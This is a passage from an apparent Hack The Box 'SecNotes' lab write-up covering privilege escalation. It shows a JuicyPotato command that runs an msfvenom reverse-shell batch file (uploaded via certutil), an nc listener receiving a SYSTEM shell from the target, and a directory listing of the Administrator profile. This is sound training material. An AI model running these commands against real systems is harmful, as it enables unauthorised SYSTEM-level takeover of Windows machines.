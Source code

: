 I used `JuicyPotato` and got the shell through it , I uploaded the shell.bat file through `certutil` and created it through `msfvenom` port for 445 and LHOST as tun0 interface →

```bash
C:\TEmp>JuicyPotato.exe -t * -p shell.bat -l 4444
JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\TEmp>
```
{: .nolineno}

and I got the response as `nt authority\system` .

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ rlwrap nc -lvnp 445             
listening on [any] 445 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.97] 53949
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>hostname
hostname
SECNOTES

C:\WINDOWS\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 1E7B-9B76
C:.
+---3D Objects
+---Contacts
+---Desktop
|       Microsoft Edge.lnk
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---OneDrive
+---Pictures
|   +---Camera Roll
|   \---Saved Pictures
```